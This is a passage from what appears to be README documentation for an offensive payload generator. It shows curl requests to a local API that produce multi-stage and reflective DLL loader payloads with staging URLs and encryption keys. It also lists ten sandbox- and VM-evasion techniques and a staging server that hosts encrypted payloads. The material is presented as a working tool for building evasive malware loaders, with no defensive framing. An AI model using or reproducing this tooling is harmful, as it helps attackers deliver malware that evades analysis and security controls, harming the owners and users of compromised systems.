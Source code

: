 ### Multi-Stage with Evasion
```bash
curl -X POST http://localhost:8080/api/generate \
  -H "Content-Type: application/json" \
  -H "x-api-key: your_api_key" \
  -d '{
    "type": "multi_stage", 
    "staging_urls": ["http://localhost:9090/stage/1", "http://localhost:9090/stage/2"],
    "evasion_techniques": ["environment_checks", "process_checks", "timing_checks"],
    "complexity_level": 8
  }'
```

### Reflective DLL Loader
```bash
curl -X POST http://localhost:8080/api/generate \
  -H "Content-Type: application/json" \
  -H "x-api-key: your_api_key" \
  -d '{
    "type": "reflective",
    "staging_urls": ["http://localhost:9090/dll/payload"],
    "encryption_key": "secure_key_32_characters_long",
    "evasion_techniques": ["hardware_checks", "registry_checks"],
    "complexity_level": 10
  }'
```

## 🔍 Advanced Features

### Custom Evasion Techniques
The system supports 10 categories of evasion techniques that can be mixed and matched:

1. **Environment Checks** - Sandbox username/hostname detection
2. **Timing Checks** - Sleep acceleration and system uptime validation
3. **Process Checks** - Analysis tool and process count validation
4. **Network Checks** - Virtual adapter and connectivity verification
5. **File System Checks** - VM artifact and analysis tool detection
6. **Registry Checks** - Virtualization registry key detection
7. **Memory Checks** - System resource and performance validation
8. **User Interaction** - Mouse movement and application detection
9. **Geolocation Checks** - Timezone and locale validation
10. **Hardware Checks** - Virtual hardware component detection

### Staging Server Capabilities
- Multi-stage payload hosting
- Encrypted payload delivery
- Access logging and analytics
- Health monitoring endpoints
- Automatic payload cleanup

### Database Analytics
- Payload generation tracking
- Access pattern analysis
- Security event correlation
- Performance trend analysis
- Automatic data retention
